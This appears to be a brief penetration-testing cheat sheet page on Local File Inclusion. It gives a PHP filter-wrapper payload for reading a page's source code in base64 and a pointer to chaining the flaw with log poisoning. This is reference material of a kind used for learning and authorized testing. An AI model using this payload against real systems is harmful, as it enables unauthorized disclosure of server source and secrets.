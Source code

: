 ```yaml
---
icon: file-import
description: Local File Inclusion
---
```


# LFI

{% hint style="info" %}
### <mark style="color:orange;">`PHP`</mark>

* <mark style="color:purple;">Read page</mark> <mark style="color:orange;">**`source code`**</mark><mark style="color:purple;">:</mark>

```php
php://filter/convert.base64-encode/resource=dashboard
```
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:purple;">Chaining</mark>

* <mark style="color:purple;">If it's possible to access logs try</mark> [<mark style="color:orange;">**`Log Poisoning`**</mark>](log-poisoning.md)&#x20;
{% endhint %}


